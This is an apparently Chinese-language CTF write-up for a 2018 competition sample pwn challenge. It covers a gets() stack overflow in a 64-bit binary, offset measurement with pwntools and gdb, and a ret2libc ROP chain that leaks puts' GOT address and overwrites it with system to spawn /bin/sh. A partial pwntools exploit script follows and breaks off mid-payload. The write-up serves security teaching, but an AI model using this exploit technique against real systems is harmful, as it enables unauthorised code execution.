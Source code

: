 ```yaml
---
layout:     post
title:      "2018铁三个人赛样题writeup"
subtitle:   " \"x64 Rop\""
date:       2018-02-12 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```


>文件链接

[https://github.com/yxshyj/project/tree/master/pwn/2018%E9%93%81%E4%B8%89%E4%B8%AA%E4%BA%BA%E8%B5%9B%E6%A0%B7%E9%A2%98](https://github.com/yxshyj/project/tree/master/pwn/2018%E9%93%81%E4%B8%89%E4%B8%AA%E4%BA%BA%E8%B5%9B%E6%A0%B7%E9%A2%98)

<html><head><meta name="generator" content="Aspose.Words for .NET 15.1.0.0" /><span style="font-family:Calibri; font-size:16pt; font-weight:bold">1</span><span style="font-family:宋体; font-size:16pt; font-weight:bold">、</span><span style="font-family:宋体; font-size:16pt; font-weight:bold">程序分析</span></h3><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">使用</span><span style="font-family:Calibri; font-size:10.5pt">IDA pro </span><span style="font-family:宋体; font-size:10.5pt">打开程序文件</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0">![](https://i.imgur.com/16hax4G.png)</p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">程序存在典型的栈溢出，使用</span><span style="font-family:Calibri; font-size:10.5pt">gets</span><span style="font-family:宋体; font-size:10.5pt">没有限制输入的长度，而且存在</span><span style="font-family:Calibri; font-size:10.5pt">gets</span><span style="font-family:宋体; font-size:10.5pt">，</span><span style="font-family:Calibri; font-size:10.5pt">puts</span><span style="font-family:宋体; font-size:10.5pt">等函数调用。</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">运行程序</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0">![](https://i.imgur.com/Wn8NFmk.png)</p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">长度过长的时候会导致程序崩溃。</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">检查程序的保护措施</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0">![](https://i.imgur.com/r00sAnm.png)</p><h3 style="font-size:16pt; line-height:172%; margin:13pt 0pt; orphans:0; page-break-after:avoid; page-break-inside:avoid; text-align:justify; text-indent:0pt; widows:0"><span style="font-family:Calibri; font-size:16pt; font-weight:bold">2</span><span style="font-family:宋体; font-size:16pt; font-weight:bold">、</span><span style="font-family:宋体; font-size:16pt; font-weight:bold">测量偏移长度</span></h3><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; text-indent:0pt; widows:0"><span style="font-family:Calibri; font-size:10.5pt">1)</span><span style="font:7.0pt 'Times New Roman'">&#xa0; </span><span style="font-family:宋体; font-size:10.5pt">使用</span><span style="font-family:Calibri; font-size:10.5pt">pwntools </span><span style="font-family:宋体; font-size:10.5pt">产生</span><span style="font-family:Calibri; font-size:10.5pt">150</span><span style="font-family:宋体; font-size:10.5pt">个垃圾字符</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">pip install pwntools </span><span style="font-family:宋体; font-size:10.5pt">之后 </span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">pwn cyclic 150</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0">![](https://i.imgur.com/eynMELO.png)</p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">将这些字符串输出到一个</span><span style="font-family:Calibri; font-size:10.5pt">test</span><span style="font-family:宋体; font-size:10.5pt">文件中</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; text-indent:0pt; widows:0"><span style="font-family:Calibri; font-size:10.5pt">2)</span><span style="font:7.0pt 'Times New Roman'">&#xa0; </span><span style="font-family:Calibri; font-size:10.5pt">gdb </span><span style="font-family:宋体; font-size:10.5pt">调试</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0">![](https://i.imgur.com/krUzqBd.png)</p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">查看</span><span style="font-family:Calibri; font-size:10.5pt">gdb</span><span style="font-family:宋体; font-size:10.5pt">的调试信息</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0">![](https://i.imgur.com/u0dZ1WC.png)</p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">图中显示运行到</span><span style="font-family:Calibri; font-size:10.5pt">ret </span><span style="font-family:宋体; font-size:10.5pt">处停止，</span><span style="font-family:Calibri; font-size:10.5pt">ret </span><span style="font-family:宋体; font-size:10.5pt">指令 相当于 </span><span style="font-family:Calibri; font-size:10.5pt">pop rax ; jmp rax </span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">也就是从栈顶取值，并跳转到这个值的地址。</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">栈顶的值是</span><span style="font-family:Calibri; font-size:10.5pt">kaaa </span><span style="font-family:宋体; font-size:10.5pt">由此得偏移量为</span><span style="font-family:Calibri; font-size:10.5pt">40</span><span style="font-family:宋体; font-size:10.5pt">。</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0">![](https://i.imgur.com/klPeu5U.png)</p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><h3 style="font-size:16pt; line-height:172%; margin:13pt 0pt; orphans:0; page-break-after:avoid; page-break-inside:avoid; text-align:justify; text-indent:0pt; widows:0"><span style="font-family:Calibri; font-size:16pt; font-weight:bold">3</span><span style="font-family:宋体; font-size:16pt; font-weight:bold">、</span><span style="font-family:宋体; font-size:16pt; font-weight:bold">漏洞利用思路</span></h3><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">现在可以利用栈溢出让程序跳转到任意位置，但是由于程序开启了</span><span style="font-family:Calibri; font-size:10.5pt">NX</span><span style="font-family:宋体; font-size:10.5pt">，且系统中开启了</span><span style="font-family:Calibri; font-size:10.5pt">ASLR</span><span style="font-family:宋体; font-size:10.5pt">，所以采用</span><span style="font-family:Calibri; font-size:10.5pt">ROP</span><span style="font-family:宋体; font-size:10.5pt">技术，构造出一个</span><span style="font-family:Calibri; font-size:10.5pt">system(</span><span style="font-family:Calibri; font-size:10.5pt">“</span><span style="font-family:Calibri; font-size:10.5pt">/bin/sh</span><span style="font-family:Calibri; font-size:10.5pt">”</span><span style="font-family:Calibri; font-size:10.5pt">).</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">system</span><span style="font-family:宋体; font-size:10.5pt">函数在</span><span style="font-family:Calibri; font-size:10.5pt">libc</span><span style="font-family:宋体; font-size:10.5pt">中，且每次运行都会变化，我们通过构造</span><span style="font-family:Calibri; font-size:10.5pt">payload</span><span style="font-family:宋体; font-size:10.5pt">泄露</span><span style="font-family:Calibri; font-size:10.5pt">libc</span><span style="font-family:宋体; font-size:10.5pt">中的另一个函数</span><span style="font-family:Calibri; font-size:10.5pt">puts</span><span style="font-family:宋体; font-size:10.5pt">在</span><span style="font-family:Calibri; font-size:10.5pt">GOT</span><span style="font-family:宋体; font-size:10.5pt">表中的真实地址，</span><span style="font-family:Calibri; font-size:10.5pt">puts</span><span style="font-family:宋体; font-size:10.5pt">和</span><span style="font-family:Calibri; font-size:10.5pt">system </span><span style="font-family:宋体; font-size:10.5pt">在</span><span style="font-family:Calibri; font-size:10.5pt">libc</span><span style="font-family:宋体; font-size:10.5pt">中的偏移是固定的，进而推算出</span><span style="font-family:Calibri; font-size:10.5pt">system</span><span style="font-family:宋体; font-size:10.5pt">地址。</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">再次构造</span><span style="font-family:Calibri; font-size:10.5pt">ROP </span><span style="font-family:宋体; font-size:10.5pt">使用</span><span style="font-family:Calibri; font-size:10.5pt">gets</span><span style="font-family:宋体; font-size:10.5pt">函数将</span><span style="font-family:Calibri; font-size:10.5pt">put</span><span style="font-family:宋体; font-size:10.5pt">函数的</span><span style="font-family:Calibri; font-size:10.5pt">GOT</span><span style="font-family:宋体; font-size:10.5pt">地址覆盖为</span><span style="font-family:Calibri; font-size:10.5pt">system</span><span style="font-family:宋体; font-size:10.5pt">函数地址，然后再跳转到</span><span style="font-family:Calibri; font-size:10.5pt">put</span><span style="font-family:宋体; font-size:10.5pt">即可实现</span><span style="font-family:Calibri; font-size:10.5pt">getshell</span><span style="font-family:宋体; font-size:10.5pt">。</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; text-indent:0pt; widows:0"><span style="font-family:Calibri; font-size:10.5pt">1)</span><span style="font:7.0pt 'Times New Roman'">&#xa0; </span><span style="font-family:宋体; font-size:10.5pt">泄露</span><span style="font-family:Calibri; font-size:10.5pt">puts</span><span style="font-family:宋体; font-size:10.5pt">函数的</span><span style="font-family:Calibri; font-size:10.5pt">GOT</span><span style="font-family:宋体; font-size:10.5pt">地址</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">首先收集</span><span style="font-family:Calibri; font-size:10.5pt">gets</span><span style="font-family:宋体; font-size:10.5pt">的</span><span style="font-family:Calibri; font-size:10.5pt">plt</span><span style="font-family:宋体; font-size:10.5pt">地址 和 </span><span style="font-family:Calibri; font-size:10.5pt">puts</span><span style="font-family:宋体; font-size:10.5pt">的</span><span style="font-family:Calibri; font-size:10.5pt">plt</span><span style="font-family:宋体; font-size:10.5pt">，</span><span style="font-family:Calibri; font-size:10.5pt">got</span><span style="font-family:宋体; font-size:10.5pt">地址。</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0">![](https://i.imgur.com/AAdxxpE.png)</p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">需要构造 </span><span style="font-family:Calibri; font-size:10.5pt">puts(puts\_got) </span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">在</span><span style="font-family:Calibri; font-size:10.5pt">64</span><span style="font-family:宋体; font-size:10.5pt">位中通过寄存器传递参数 依次是</span><span style="font-family:Calibri; font-size:10.5pt">rdi,rsi,rdx,r10,r8,r9</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">使用</span><span style="font-family:Calibri; font-size:10.5pt">ROPgadget </span><span style="font-family:宋体; font-size:10.5pt">查找 </span><span style="font-family:Calibri; font-size:10.5pt">pop rdi;ret;  </span><span style="font-family:宋体; font-size:10.5pt">用于设置</span><span style="font-family:Calibri; font-size:10.5pt">puts</span><span style="font-family:宋体; font-size:10.5pt">函数的第一个参数。</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">ROPgadget --binary ./tie3\_pwn --only "pop|ret"</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0">![](https://i.imgur.com/Wc5KnZl.png)</p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">pop rdi ; ret ; </span><span style="font-family:宋体; font-size:10.5pt">的地址是</span><span style="font-family:Calibri; font-size:10.5pt">0x4006f3</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">构造</span><span style="font-family:Calibri; font-size:10.5pt">payload  pop\_rdi + puts\_got + puts\_plt  </span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0">![](https://i.imgur.com/P4l6ru1.png)</p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">运行结果如下</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0">![](https://i.imgur.com/aVYERT3.png)</p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">到此已经成功的获取到了</span><span style="font-family:Calibri; font-size:10.5pt">put</span><span style="font-family:宋体; font-size:10.5pt">的函数地址。</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">计算偏移</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">libc = ELF("/lib/x86\_64-linux-gnu/libc.so.6")</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt"></span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">system\_off = libc.symbols['system']</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">puts\_off = libc.symbols['puts']</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">off = system\_off - puts\_off</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">此时</span><span style="font-family:Calibri; font-size:10.5pt">system</span><span style="font-family:宋体; font-size:10.5pt">的地址也知道了。</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; text-indent:0pt; widows:0"><span style="font-family:Calibri; font-size:10.5pt">2)</span><span style="font:7.0pt 'Times New Roman'">&#xa0; </span><span style="font-family:宋体; font-size:10.5pt">将</span><span style="font-family:Calibri; font-size:10.5pt">put</span><span style="font-family:宋体; font-size:10.5pt">替换为</span><span style="font-family:Calibri; font-size:10.5pt">system</span><span style="font-family:宋体; font-size:10.5pt">地址获得</span><span style="font-family:Calibri; font-size:10.5pt">shell</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">使用</span><span style="font-family:Calibri; font-size:10.5pt">gets</span><span style="font-family:宋体; font-size:10.5pt">函数，构造</span><span style="font-family:Calibri; font-size:10.5pt">gets(puts\_got)  </span><span style="font-family:宋体; font-size:10.5pt">，然后再构造</span><span style="font-family:Calibri; font-size:10.5pt">system(</span><span style="font-family:Calibri; font-size:10.5pt">“</span><span style="font-family:Calibri; font-size:10.5pt">/bin/sh</span><span style="font-family:Calibri; font-size:10.5pt">”</span><span style="font-family:Calibri; font-size:10.5pt">)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:宋体; font-size:10.5pt">在原来的基础上</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">pop\_rdi + puts\_got + puts\_plt  </span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">+ pop\_rdi+puts\_got+gets\_plt  </span><span style="font-family:宋体; font-size:10.5pt">此时已经构造好覆盖</span><span style="font-family:Calibri; font-size:10.5pt">put</span><span style="font-family:宋体; font-size:10.5pt">函数</span><span style="font-family:Calibri; font-size:10.5pt">got</span><span style="font-family:宋体; font-size:10.5pt">表的</span><span style="font-family:Calibri; font-size:10.5pt">payload</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">+pop\_rdi + bin_sh + puts\_plt   </span><span style="font-family:宋体; font-size:10.5pt">执行</span><span style="font-family:Calibri; font-size:10.5pt">system(</span><span style="font-family:Calibri; font-size:10.5pt">“</span><span style="font-family:Calibri; font-size:10.5pt">/bin/sh</span><span style="font-family:Calibri; font-size:10.5pt">”</span><span style="font-family:Calibri; font-size:10.5pt">)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="font-family:Calibri; font-size:10.5pt">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; text-transform:none">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:宋体; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">最后完整的</span><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">payload</span><span style="background-color:#ffffff; color:#333333; font-family:宋体; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">如下</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; text-transform:none">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">from pwn import \*</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">context.log\_level = "debug"</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; text-transform:none">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">e = ELF("./tie3_pwn")</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">puts\_plt = e.plt['puts']</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">gets\_plt = e.plt['gets']</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">puts\_got = e.got['puts']</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; text-transform:none">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">print "puts\_plt: "+hex(puts\_plt)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">print "gets\_plt: "+hex(gets\_plt)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">print "puts\_got: "+hex(puts\_got)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; text-transform:none">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">pop\_rdi = 0x4006f3</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">print "pop\_rdi: "+hex(pop\_rdi)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; text-transform:none">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">libc = ELF("/lib/x86\_64-linux-gnu/libc.so.6")</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none"></span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">system\_off = libc.symbols['system']</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">puts\_off = libc.symbols['puts']</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">off = system\_off - puts\_off</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; text-transform:none">&#xa0;</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">payload = "A"*40+p64(pop\_rdi)+p64(puts\_got)+p64(puts\_plt)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; font-weight:normal; text-transform:none">payload += p64(pop\_rdi)+p64(puts\_got)+p64(gets\_plt)</span></p><p style="font-size:10.5pt; line-height:115%; margin:0pt 0pt 10pt; orphans:0; text-align:justify; widows:0"><span style="background-color:#ffffff; color:#333333; font-family:Arial; font-size:10.5pt; font-style:normal; 